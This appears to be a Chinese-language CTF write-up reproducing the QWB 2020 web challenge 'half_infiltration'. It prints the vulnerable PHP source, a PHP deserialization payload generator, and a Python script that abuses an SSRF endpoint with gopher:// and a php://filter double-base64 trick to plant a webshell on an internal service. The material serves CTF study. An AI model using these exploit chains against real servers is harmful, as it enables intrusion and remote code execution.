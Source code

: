 ```yaml
---
title: qwb2020web复现
author: ch3n9w
date: 2020-08-27 20:48:12
categories: CTF
typora-root-url: ../
cover:
  image: image-20211114141959846.png
---
```


## half_infiltration

开局的页面如下

```php
<?php
highlight_file(__FILE__);

$flag=file_get_contents('ssrf.php');

class Pass
{


    function read()
    {
        ob_start();
        global $result;
        print $result;

    }
}

class User
{
    public $age,$sex,$num;

    function __destruct()
    {
        $student = $this->age;
        $boy = $this->sex;
        $a = $this->num;
    $student->$boy();
    if(!(is_string($a)) ||!(is_string($boy)) || !(is_object($student)))
    {
        ob_end_clean();
        exit();
    }
    global $$a;
    $result=$GLOBALS['flag'];
        ob_end_clean();
    }
}

if (isset($_GET['x'])) {
    unserialize($_GET['x'])->get_it();
} 

```

思路是进行两次反序列化, 第一次将$_GLOBALS['flag']赋值给全局变量$result, 第二次反序列化是让程序在``ob_end_clean()``执行之前报错退出. ``ob_start``会打开输出缓冲

> 启用输出缓冲会导致PHP开始存储你输出的脚本而不是立即将它们发送到客户端。当脚本结束或者你调用了ob_flush()函数，PHP才会将内容发送到客户端。

``ob_end_clean``会将输出缓冲的内容进行一个清空, 那么如果要看到$result的内容的话, 我们就需要在``ob_end_clean``之前退出程序. 通过将$a赋值为this可以做到让程序报错退出.

```php
<?php

class Pass{
    function read(){
	// ob_start();
	global $result;
	print $result;
    }
}

class User{
    public $age, $sex, $num;
    function __construct($a, $b, $c)
    {
	$this->age = $a;
	$this->sex = $b;
	$this->num = $c;
    }
}
echo urlencode(serialize([
    new User(new Pass(), "read", "result"),
    new User(new Pass(), "read", "this")
    ]));

?>

```

然后我们可以看到ssrf.php的内容

```php
<?php 
//经过扫描确认35000以下端口以及50000以上端口不存在任何内网服务,请继续渗透内网
    $url = $_GET['we_have_done_ssrf_here_could_you_help_to_continue_it'] ?? false; 
	if(preg_match("/flag|var|apache|conf|proc|log/i" ,$url)){
		die("");
	}

	if($url)
    { 

            $ch = curl_init(); 
            curl_setopt($ch, CURLOPT_URL, $url); 
            curl_setopt($ch, CURLOPT_HEADER, 1);
            curl_exec($ch);
            curl_close($ch); 

     } 

?>
```

扫描发现

http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/

有东西

```html
HTTP/1.1 200 OK
Date: Thu, 27 Aug 2020 13:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: PHPSESSID=60uap1c9tcik5f1ivmqqp933g2; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 1121
Content-Type: text/html; charset=UTF-8



<!DOCTYPE html>
<html>

<head>
	<title>Message Board</title>
	<link rel="stylesheet" href="css/bootstrap.min.css" />
</head>

<body>
	<div class="container" style="text-align:center;vertical-align:middle;">

		<div class="row" style="text-align:center;vertical-align:middle;">
			<h1>Message Board </h1>
		</div>
		<div class="row">
			<br><br>
			<p class="lead">
				Since there is only one administrator, a person can only submit one opinion at a time.
				Each time a new opinion is submitted, all old comments will be deleted
				<br><br>
                </p>
		</div>

		<br>

		<div class="row" style="text-align:center;vertical-align:middle;">

			<form method="POST" class="form-inline">
				<div class="form-group">
					<input class='form-control' type="text" name="file">
	</div>
					<div class='panel-body'>
						<textarea class='form-control' name='content' rows='6'></textarea>
						<br>
						<br>
						<div class="form-group">
							<button type="submit" class='btn btn-default col-md-2 form-control' value="Submit">Submit</button>
						</div>




			</form>

		</div>
```

同时

http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/

可以访问, 那么这里应该是上传东西到目录下面了.这里使用gopher协议来发送post上传文件, 这里依然会有一个过滤, 包括等号在内的几种符号和字母组合都被过滤了,使用二次编码协议来绕过. 

```php
import requests
from urllib.parse import urlencode, quote_plus, quote

url0 = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=gopher://127.0.0.1:40000/_"

upload_data = {
    'file':'php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php',
    'content':'UEQ4OVlHTmhkQ0F2Wm14aFoyQTc' # 似乎可以正常解密的base64都无法写入文件中
}
upload_data = urlencode(upload_data, quote_via=quote_plus)
print(upload_data)

gopher_content = '''POST / HTTP/1.1
Host: 127.0.0.1:40000
Cookie: PHPSESSID=hhhhhhhhhhhhhhhhhhhhhhhaaa;
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: {length}

{data}'''.format(length = len(upload_data), data=upload_data).replace('\n', '\r\n')


#  ssrf need double url encode
url = url0 + quote(quote(gopher_content))

header = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.135 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}

while True:
    requests.get(url, headers=header)

validate = "http://39.98.131.124/ssrf.php?we_have_done_ssrf_here_could_you_help_to_continue_it=http://127.0.0.1:40000/uploads/hhhhhhhhhhhhhhhhhhhhhhhaaa/shell.php

res = requests.get(validate)
print(res.content)

```

![image-20211114142011268](/images/qwb2020-web-1/image-20211114142011268.png)
